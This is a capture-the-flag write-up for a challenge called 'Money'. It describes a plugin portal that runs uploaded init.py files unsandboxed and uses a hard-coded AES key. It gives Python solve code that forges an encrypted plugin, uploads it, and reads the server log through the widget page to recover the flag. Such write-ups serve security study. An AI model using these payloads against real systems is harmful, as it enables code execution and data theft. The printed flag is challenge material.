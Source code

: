 # Money

![Proof](proof.png)

**Author:** `stancium`   
**Solve:** 61

---

## Description

This isn't wordpress...

We get: `Hidden_in_the_Cartridge.7z`
---

## Vulnerabilities

* Arbitrary Code Execution: Uploaded `init.py` is executed with `subprocess.run([...], cwd=plugin_dir)` with no sandboxing.
* Hard-coded symmetric key: `KEY = b"SECRET_KEY!123456XXXXXXXXXXXXXXX"` allows anyone to craft valid `.plugin` packages.
* Log exposure vector: Flag is printed to stdout by the official plugin and captured in `/opt/app/app.log`.
* Store gating by plugin count: Downloading from `/store` is gated by `len(registry) > 2`, which can be trivially reached by uploading benign plugins.

---

## Exploit Overview

1. Build a valid `.plugin` archive (zip), place an `init.py` that reads `/opt/app/app.log` and writes it into the plugin's own `index.html`.
2. Encrypt the zip using the known AES-CBC key (prepend a random IV), producing a `.plugin` file.
3. Upload the `.plugin` to the portal. The server will decrypt, extract, and execute `init.py`.
4. Visit `/widget/<your-uid>` — the server will serve the `index.html` you created, which contains the contents of the server log, including the flag line.
5. Parse the flag from the served page (it appears as `You cannot see this MUHAHAHAHA: <FLAG>` in the log).

---

## Solve.py

### 1. Payload that runs on the server:
```python
INIT_PY = r'''
import os, html
from pathlib import Path
plug = Path(__file__).resolve().parent
src = "/opt/app/app.log"
try:
    data = Path(src).read_text(errors="ignore")
except Exception as e:
    data = f"[read error] {e}"
html_out = "<!doctype html><meta charset='utf-8'><title>log</title><pre>" + html.escape(data) + "</pre>"
(plug / "index.html").write_text(html_out)
print("ok")
'''
```
This string becomes the init.py file inside the plugin ZIP.   
When the server executes init.py, it:
  Reads /opt/app/app.log (where the server logged the official plugin’s stdout that contains the flag).   
  Builds a minimal HTML page wrapping the log (escaped so it’s safe to view).   
  Writes that page to index.html inside the plugin directory.   
  Prints "ok" to stdout (server captures stdout in logs too).   
Result: after upload + execution, visiting /widget/<uid> will serve the index.html we just wrote (i.e., the server log).   


### 2. Build plugin ZIP (in-memory)

Create a ZIP containing the files the portal expects:
```bash
- plugin_manifest.json   # {"name": NAME, "version":"1.0", "author":"me", "icon":"thumbnail.svg"}
- thumbnail.svg          # small dashboard icon
- index.html             # placeholder (payload will overwrite this on the server)
- init.py                # the payload (INIT_PY) shown above
```

### 3. Encrypt to .plugin format

The server expects a .plugin file to be the IV (16 bytes) followed by AES-CBC(KEY, Padded(ZIP)). Steps:
```python
iv = os.urandom(16)                         # random 16-byte IV
ciphertext = AES.new(KEY, AES.MODE_CBC, iv).encrypt(pad(zip_bytes, AES.block_size))
plugin_blob = iv + ciphertext               # file contents to upload
*Because the server uses a hard-coded key (KEY) we can produce a valid .plugin.
```

### 4. Upload the plugin

POST the .plugin to /upload as multipart form data:
```python
files = {'file': ('exploit.plugin', plugin_blob, 'application/octet-stream')}
requests.post(f"{BASE}/upload", files=files)
```

On the server this triggers:
```bash
Save uploaded file.
Decrypt using KEY.
Extract the zip into a new plugins/<uid>/ directory.
Execute init.py with subprocess.run(..., cwd=plugin_dir) — our payload runs now.
```

### 5. Find your plugin UID on the dashboard

After upload the dashboard (/) shows a widget card for the plugin. Scrape it to get the UID:
```python
<a class="link" href="/widget/<uid>">LOG_RIPPER</a>
```
The UID is used to fetch /widget/<uid> which serves that plugin’s index.html.

### 6. Fetch the widget page (exfiltrate the log)

GET /widget/<uid> — the server will now serve the index.html our payload wrote, which contains the escaped contents of /opt/app/app.log.

Save it locally for inspection:
```python
page = requests.get(f"{BASE}/widget/{uid}").text
open("widget_log.html","w").write(page)
```



### Flag:  CTF{9fb64c8a4d81f9d0e1f4108467bee58db112d0d1457fa3716cc6a46231803686}